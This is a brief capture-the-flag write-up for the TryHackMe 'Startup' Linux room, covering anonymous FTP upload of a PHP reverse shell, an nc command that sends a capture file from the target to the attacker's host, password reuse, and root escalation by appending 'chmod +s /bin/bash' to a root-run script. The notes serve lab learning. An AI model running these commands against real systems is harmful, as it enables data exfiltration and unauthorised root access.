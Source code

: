 # Startup 🧭
Names | Details
--------|-----
Source | tryhackme
Level     | Easy
Os | Linux

**Notes :**




## Gaining Access 😉

- ftp port is open 
	- run ls -la , we have write permission
	- it can be logined by any ramdom password 
	- ran '?'
	- uploaded a php reverseshell on ftp using put command



## Maintaining Access 🥷
- file found on root incident
	- pcadpng file available
	- downloaded using python simple http
	- found an password enter incident from another user
	- tried the password for lennie
- logged in as lennie (su lennie and ssh lennie@host: both are possible)
- found .sh script owned by root which executes another script owned by lennie
	- /etc/
## Important commands 🔥
- to share files from victim to attacker nc
	- Local: 
	```
	nc -l -p 1234 > suspicious.pcapng
	```

	- Target: 
	 ```
	 nc -w 3 $LHOST 1234 < suspicious.pcapng
	 ```
- ettercap to read .pcapng files
	-   `ettercap -T -r suspicious.pcapng`
	-   pspy and linpease can be used for further enumeration
	-   `echo "chmod +s /bin/bash" >> print.sh`
	-   /bin/bash 
		-   `/bin/bash -p`

## Post Exploitation ✴️
- /recip.txt
- User flag : /home/lennie/user.txt
- Root flag : /root/root
## Tips 💡
- something


--------------------------------
**By Nibras Muhammed** 🤓🖥️






